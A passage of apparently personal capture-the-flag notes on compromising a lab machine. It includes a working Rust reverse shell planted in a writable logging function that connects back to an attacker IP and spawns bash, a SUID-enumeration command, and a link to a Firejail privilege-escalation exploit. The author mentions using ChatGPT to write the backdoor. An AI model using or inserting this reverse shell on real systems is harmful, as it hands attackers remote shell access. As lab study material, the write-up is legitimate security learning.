 So i framed rust using chatgpt + https://github.com/LukeDSchenk/rust-backdoors/blob/master/reverse-shell/src/main.rs

As he said it is resetting really very fast , 

At the same time we have access to write the file, Yeah..!!Luck

~~~
use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

pub fn log(_user: &str, _query: &str, _justification: &str) {
    let sock = TcpStream::connect("10.10.16.98:4321").unwrap();
    let fd = sock.as_raw_fd();

    Command::new("/bin/bash")
        .arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn()
        .unwrap()
        .wait()
        .unwrap();
}
~~~

~~~
cargo build
~~~

Now after some seconds we will get shell..!!
![[Pasted image 20230625041702.png]]
But dont forgot to get two shells..!


During the enumeration of the binaries with SUID permissions, we have discovered the firejail binary, and luckily, we have the necessary execute permissions to use it, since we are part of the 'jailer' group.

~~~
find \-perm -4000 -user root 2>/dev/null
~~~

![[Pasted image 20230625042239.png]]

[Firejail suid Exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)

We have found an exploit that will give us the opportunity to escalate privileges by taking advantage of the vulnerabilities present in firejail.

so keep in mind we need two shells,

![[Pasted image 20230625041702.png]]

![[Pasted image 20230625041719.png]]
